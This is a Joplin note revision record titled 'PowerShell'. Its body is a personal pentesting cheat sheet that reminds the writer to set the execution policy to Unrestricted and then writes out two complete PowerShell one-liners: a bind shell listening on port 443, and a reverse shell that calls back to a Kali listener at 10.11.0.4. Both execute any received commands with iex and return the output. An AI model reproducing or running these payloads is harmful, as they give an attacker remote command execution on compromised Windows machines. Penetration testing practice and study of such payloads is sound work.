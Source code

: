 id: 648dfcec2ac04f91a7994dffdfd0ae40
parent_id: 
item_type: 1
item_id: 1a72f4e7464d467d810fc01a3adf9ed0
item_updated_time: 1642143766017
title_diff: "[{\"diffs\":[[1,\"PowerShell\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":10}]"
body_diff: "[{\"diffs\":[[1,\"Remember to make the computer set the executionPolicy unrestricted\\\n\\\n> Set-ExecutionPolicy Unrestricted\\\n\\\nBind shell: powershell -c \\\"$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443); $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();\\\\[byte\\\\[\\\\]\\\\]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\\\\[text.encoding\\\\]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()\\\"\\\n\\\nReverse Bind shell (With kali as listener): powershell -c \\\"$client = New-Object System.Net.Sockets.TCPClient('10. 11.0.4',443); $stream = $client.GetStream(); \\\\[byte\\\\[\\\\]\\\\]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\\\\[text.encoding\\\\]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\\\"\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1281}]"
metadata_diff: {"new":{"id":"1a72f4e7464d467d810fc01a3adf9ed0","parent_id":"b8fe3751a1b24ee7ad3f067e0a5bfdcd","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-14T07:02:53.751Z
created_time: 2022-01-14T07:02:53.751Z
type_: 13